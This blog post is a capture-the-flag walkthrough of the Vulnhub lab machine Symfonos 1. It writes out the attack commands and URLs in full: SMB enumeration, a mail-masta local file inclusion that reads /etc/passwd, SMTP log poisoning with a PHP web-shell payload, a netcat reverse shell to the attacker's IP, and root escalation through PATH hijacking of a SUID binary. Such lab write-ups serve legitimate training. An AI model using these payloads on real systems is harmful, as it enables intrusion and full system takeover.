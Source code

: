 ```yaml
---
layout: post
title: Symfonos 1 - Vulnhub
date: 2024-04-05 00:01:00
description: A walkthrough of the machine “Symfonos 1” on Vulnhub.
tags: ctf-walkthrough exam-prep pentesting
categories: ctf
---
```


This is a write-up on the machine called Symfonos 1 on Vulnhub. It has an interesting way to spawn a shell, which was new to me.

Link to the machine: [https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)

I set the machine up on my VirtualBox, with a bridged network connection. First thing I did is find the IP of the machine using netdiscover.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">sudo netdiscover -i eth0</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I got the IP as 192.168.1.35. Next, I did an nmap scan on the machine.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

SSH port 22, smtp port 25, http port 80 and smb ports 139 and 445 were open. I also got a domain name `symfonos.local`, which I added to my /etc/hosts file.

I decided to first try and enumerate SMB to see what I could find. First, I listed the available SMB shares using smbclient.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">smbclient -L //192.168.1.35 -N</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The two most interesting shares are helios and anonymous. First, I tried connecting to the anonymous share.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">smbclient //192.168.1.35/anonymous -N</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

There was a text file attention.txt which I downloaded onto my machine using `get attention.txt`. I checked it’s contents and it gave us three possible passwords.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Next, I tried to access the helios share, but I could not do so. So, I decided to enumerate using enum4linux to see if anything else could be found.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">enum4linux -a 192.168.1.35</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I found a username, helios, in the output.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Using this username, I tried to connect to the helios share again and it worked. It required a password, which was `qwerty`, one of the passwords mentioned in the attention.txt file.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">sudo smbclient //192.168.1.35/helios -U helios</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The research.txt file had some information about Helios, the greek sun god. The todo.txt file was more interesting, though.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

This hints that there is a directory /h3l105 somewhere. I decided to check out the webpage on port 80 now, since the directory could be present there. The website main page was a huge ancient painting of sorts.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

One of these gods may be Helios. Anyway, I found the h3l105 directory. It was a wordpress page.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I explored the page a bit, but could not find anything very useful. Even tried logging in with common credentials, but no luck. So I decided to use wpscan to enumerate any vulnerable plugins that may be present.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">wpscan --url http://192.168.1.35/h3l105 --plugins-detection aggressive</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I found an interesting plugin mail-masta which was uncommon, and possibly vulnerable to something.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I googled for mail-masta vulnerabilities and found out that it was vulnerable to local file inclusion (LFI).

[https://www.exploit-db.com/exploits/40290](https://www.exploit-db.com/exploits/40290)

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Towards the bottom of the exploit-db page, there was a POC url which can be used to check if the page is indeed vulnerable.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I tried this on the h3l105 page, and it worked. The final URL I used was:

[http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd](http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd)

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_16.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I did not know initially where to go from here, but then I found out that I can escalate the LFI to an RCE using SMTP Log Poisoning. I could check the mail logs at /var/mail/helios, and also add entries to it since SMTP port 25 was open. The URL I used to check /var/mail/helios is:

[http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios](http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios)

To do this, first I had to send an email with a malicious payload. The payload I used is: `<?php echo system($_GET['cmd']); ?>`

This will help us spawn a reverse shell. I sent the email with this payload by connecting to SMTP port 25 using telnet. I had to give values for MAIL FROM, RCPT TO and data, where I pasted the payload.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_17.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I checked /var/mail/helios again, and sure enough the payload was present.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_18.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Next, I checked if RCE works by trying to list the contents of the current directory using `ls`, and it worked.

[http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=ls](http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=ls)

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_19.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Now that this works, I tried spawning a reverse shell. To do so, first I set up a netcat listener on port 1234 using `nc -lvp 1234`. Then, I used the following URL:

[http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc%20-e%20/bin/bash%20192.168.1.40%201234](http://192.168.1.35/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc%20-e%20/bin/bash%20192.168.1.40%201234)

The payload is `"nc -e /bin/bash 192.168.1.40 1234`“. `192.168.1.40` is the IP address of my attacker machine.

Sure enough, I got the reverse shell connection on my netcat listener.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_20.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I upgraded to a tty shell using `python -c 'import pty;pty.spawn("/bin/bash")'` and started exploring. I could not use sudo, so I checked for SUID enabled binaries next, and found a binary at /opt/statuscheck.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">find / -perm -u=s -type f 2>/dev/null</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_21.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The owner of the binary is root, so we can use this to get a shell with root privileges. I used strings to try and find some clues about how statuscheck works and found that it uses curl.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_22.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

We can spawn a root privilege shell by modifying the path environment variable. I went to /tmp, and created my own curl binary with contents /bin/sh. Then, I added /tmp to the beginning of $PATH so that /opt/statuscheck uses my curl instead of the default curl binary.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_23.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Now all I had to do was run statuscheck again, and I got the root privilege shell.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_24.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I read the root flag at /root and with that, the challenge is complete!

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/symfonos-1/symfonos1_25.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I hope you enjoyed this walkthrough. Happy hacking!